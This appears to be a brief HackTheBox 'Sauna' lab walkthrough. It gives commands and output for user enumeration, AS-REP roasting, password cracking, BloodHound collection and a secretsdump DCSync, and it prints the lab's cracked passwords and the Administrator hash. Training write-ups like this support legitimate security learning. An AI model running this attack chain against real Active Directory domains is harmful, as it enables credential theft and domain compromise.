 ```yaml
---
title: HackTheBox-Sauna
date: 2024-12-23 09:39:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [username-anarchy, asrep]     # TAG names should always be lowercase
---
```


after getting usernames at Website use [username-anarchy](https://github.com/urbanadventurer/username-anarchy) for create users list

## username-anarchy

    (myenv) ➜  username-anarchy git:(master) ./username-anarchy --input-file ../usernames.txt --select-format first,last,flast,first.last,firstl

## kerbrute

    ➜  sauna /home/elliot/tools/kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL users.txt --dc 10.10.10.175

        __             __               __     
    / /_____  _____/ /_  _______  __/ /____ 
    / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
    / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
    /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

    Version: v1.0.3 (9dad6e1) - 12/20/24 - Ronnie Flathers @ropnop

    2024/12/20 04:48:12 >  Using KDC(s):
    2024/12/20 04:48:12 >   10.10.10.175:88

    2024/12/20 04:48:12 >  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL

## ASREP

    ➜  sauna impacket-GetNPUsers 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -dc-ip 10.10.10.175

AND CRACK PASS
    ➜  sauna john hash --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)

## bloodhound

    ➜  bloodhound bloodhound-python -d EGOTISTICAL-BANK.LOCAL -c all -u fsmith -p 'Thestrokes23' --zip -ns 10.10.10.175

GRAB PASS AT BLOODHOUND OR LDAPSEARCH

## secretsdump

    ➜  sauna impacket-secretsdump 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::

Video walkthrough
[WATCH!](https://youtu.be/z9GaIPxhaEs)